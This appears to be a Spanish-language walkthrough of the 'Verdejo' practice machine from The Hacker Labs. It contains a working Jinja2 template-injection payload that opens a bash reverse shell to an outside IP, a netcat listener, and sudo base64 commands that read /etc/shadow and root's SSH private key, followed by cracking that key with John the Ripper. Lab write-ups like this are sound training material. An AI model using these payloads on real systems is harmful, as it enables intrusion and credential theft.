 ```yaml
---
description: >-
  ✍️ Autor: The Hacker Labs🔍 Dificultad: Fácil  📅 Fecha de creación:
  22/05/2024
---
```


# Verdejo

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (835).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8089** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,8089 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (837).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea la de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (836).png" alt=""><figcaption></figcaption></figure>

Vemos a ver que corre por el **puerto 8089**.

<figure><img src="../../.gitbook/assets/image (838).png" alt=""><figcaption></figcaption></figure>

Si enviamos el texto nos sale esto.

<figure><img src="../../.gitbook/assets/image (839).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Comenzamos verificando si es posible ejecutar un ataque XSS.

```bash
<script>alert("hacked")</script>
```

<figure><img src="../../.gitbook/assets/image (840).png" alt=""><figcaption></figcaption></figure>

Probamos si es propenso a un SSTI por lo que realizamos una operación matemática que deberá mostrar el resultado.

```
{{7*7}}
```

<figure><img src="../../.gitbook/assets/image (841).png" alt=""><figcaption></figcaption></figure>

Por lo que aprovechamos eso para enviarnos una Reverse Shell.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.255.136/443 0>&1\'').read() }}
```

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (843).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con **base64** por lo que revisamos esta [página ](https://gtfobins.github.io/gtfobins/base64/)para escalar privilegios.

```bash
sudo base64 /etc/shadow | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (844).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, notamos que el puerto SSH estaba abierto. Esto sugiere la posibilidad de que el usuario root tenga un archivo `id_rsa`. Al intentar leer este archivo utilizando la ruta predeterminada, confirmamos que efectivamente obtuvimos el `id_rsa`.

```bash
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

Transferimos el archivo a nuestra máquina local y, tras asignarle permisos de ejecución, intentamos establecer la conexión. Sin embargo, se nos solicitó la contraseña asociada al `id_rsa`.

```bash
chmod 600 id_rsa
```

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

En este paso, utilizamos **ssh2john** para extraer el hash del archivo. Posteriormente, empleamos **John the Ripper** para descifrar la contraseña, siempre que esta se encuentre en nuestro diccionario. Después de un tiempo, logramos identificar la clave

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y metemos las credenciales. Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption></figcaption></figure>
